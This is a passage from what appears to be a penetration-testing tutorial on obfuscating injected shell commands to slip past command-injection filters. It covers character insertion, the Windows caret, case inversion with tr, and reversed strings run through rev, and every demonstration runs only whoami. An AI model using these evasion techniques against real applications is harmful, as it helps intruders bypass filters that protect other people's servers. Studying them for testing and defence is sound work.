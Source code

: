 This works exactly as it did with the quotes, but in this case, `the number of characters do not have to be even`, and we can insert just one of them if we want to:
```bash
who$@ami
w\ho\am\i
```
> Try the above two examples in your payload, and see if they work in bypassing the command filter. If they do not, this may indicate that you may have used a filtered character.
## Windows Only
There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character, as we can see in the following example:
```cmd-session
who^ami

21y4d
```
# Advanced Command Obfuscation
One command obfuscation technique we can use is case manipulation, like inverting the character cases of a command (e.g. `WHOAMI`) or alternating between cases (e.g. `WhOaMi`).

If we are dealing with a Windows server, we can change the casing of the characters of the command and send it.

However, when it comes to Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative and find a command that turns the command into an all-lowercase word.

One working command we can use is the following:
```shell-session
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```
- This command uses `tr` to replace all upper-case characters with lower-case characters, which results in an all lower-case character command
> If the command is still getting blocked, keep replacing the characters that are blocked (such as the space) to avoid keep on getting blocked.

There are many other commands we may use for the same purpose, like the following:
```bash
$(a="WhOaMi";printf %s "${a,,}")
```
## Reversed Commands
In this case, we will be writing `imaohw` instead of `whoami` to avoid triggering the blacklisted command.

First, we'd have to get the reversed string of our command in our terminal, as follows:
```bash 
echo 'whoami' | rev
imaohw
```

Then, we can execute the original command by reversing it back in a sub-shell (`$()`), as follows:
```bash
$(rev<<<'imaohw')

21y4d
```
